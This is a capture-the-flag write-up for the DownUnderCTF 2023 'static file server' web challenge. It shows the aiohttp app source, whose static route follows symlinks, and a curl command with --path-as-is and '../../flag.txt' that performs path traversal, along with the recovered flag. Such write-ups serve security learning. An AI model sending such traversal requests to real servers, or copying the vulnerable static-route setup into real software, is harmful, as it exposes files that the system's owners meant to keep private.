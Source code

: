 # DownUnderCTF 2023

## static file server

> Here's a simple Python app that lets you view some files on the server.
>
>  Author: joseph
>
> [`static-file-server.zip`](static-file-server.zip)

Tags: _web_

## Solution
For this challenge we are provided with the source code of another simple web application.

```python
from aiohttp import web

async def index(request):
    return web.Response(body='''
        <header><h1>static file server</h1></header>
        Here are some files:
        <ul>
            <li><img src="/files/ductf.png"></img></li>
            <li><a href="/files/not_the_flag.txt">not the flag</a></li>
        </ul>
    ''', content_type='text/html', status=200)

app = web.Application()
app.add_routes([
    web.get('/', index),

    # this is handled by https://github.com/aio-libs/aiohttp/blob/v3.8.5/aiohttp/web_urldispatcher.py#L654-L690
    web.static('/files', './files', follow_symlinks=True)
])
web.run_app(app)
```

To implement static file handling the app uses [`aiohttp static route`](https://docs.aiohttp.org/en/v3.8.1/web_advanced.html#static-file-handling) which allows path traversal:

```bash
$ curl https://web-static-file-server-9af22c2b5640.2023.ductf.dev/files/../../flag.txt --path-as-is
DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
```

Flag `DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}`